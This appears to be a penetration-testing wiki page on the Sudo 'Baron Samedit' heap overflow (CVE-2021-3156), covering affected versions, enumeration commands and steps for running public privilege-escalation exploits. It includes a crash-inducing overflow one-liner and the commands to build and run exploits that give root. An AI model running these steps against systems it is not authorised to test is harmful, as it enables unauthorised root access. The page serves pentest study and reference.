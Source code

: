 ```yaml
---
description: CVE-2021–3156
---
```


# Baron Samedit

## Theory

The "Sudo Baro Samedit" is heap buffer overflow exploit allowing any user to escalate privileges to root. No misconfigurations required, this exploit works with the default settings, for any user regardless of Sudo permissions.

The vulnerability was patched, but it didn’t update the version number for sudo or any other binary. So it’s not possible to tell definitively if a version if vulnerable or not just by version number.It can affects any unpatched version of the sudo program from **1.8.2–1.8.31p2** and **1.9.0–1.9.5p1**

## Practice

{% tabs %}
{% tab title="Enum" %}
To check the exploitability of sudo, you may run the following commands. If it's returns the `sudoedit: /: not a regular file` error message, then it’s vulnerable. If it returns the sudoedit usage, it’s not.
```bash
sudoedit -s /
```

Or with the following command, if the system is vulnerable it will overwrite the heap buffer and crash the process:
```bash
sudoedit -s '\' $(python3 -c 'print("A"*1000)')
```
{% endtab %}

{% tab title="Exploit" %}
We can use the [Sudo Baron Samedit Exploit](https://github.com/worawit/CVE-2021-3156) made by worawit. For Linux distributions that glibc has tcache support and enabled (CentOS 8, Ubuntu >= 17.10, Debian 10) we can use exploit\_nss.py:

```bash
python3 exploit_nss.py
```

For Linux distribution that glibc has no tcache support:

```
python exploit_nss_xxx.py #for specific version
python exploit_userspec.py #Last try
```

Alternativly, we may use the [Sudo Baron Samedit Exploit](https://github.com/blasty/CVE-2021-3156) made by blasty (Ubuntu 18.04.5, Ubuntu 20.04.1, Debian 10.0)\
On the vulnerable host we can do:

```
# Make file from source
make

# Replace 0 by your OS target
./sudo-hax-me-a-sandwich 0 

```
{% endtab %}
{% endtabs %}

### References

{% embed url="https://datafarm-cybersecurity.medium.com/exploit-writeup-for-cve-2021-3156-sudo-baron-samedit-7a9a4282cb31" %}
